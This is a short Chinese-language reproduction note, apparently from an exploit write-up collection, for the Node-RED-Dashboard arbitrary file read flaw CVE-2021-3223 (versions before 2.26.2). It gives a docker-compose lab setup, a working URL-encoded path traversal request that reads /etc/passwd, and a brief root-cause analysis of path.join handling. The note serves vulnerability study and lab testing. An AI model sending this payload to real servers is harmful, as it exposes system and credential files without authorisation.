


# Node-Red-Dashboard 任意文件读取（CVE-2021-3223）

## 影响版本

version < 2.26.2



## 环境搭建

```
docker-compose up -d
```

## 复现

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```



## 漏洞简析

Node-RED-Dashboard 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的任意文件
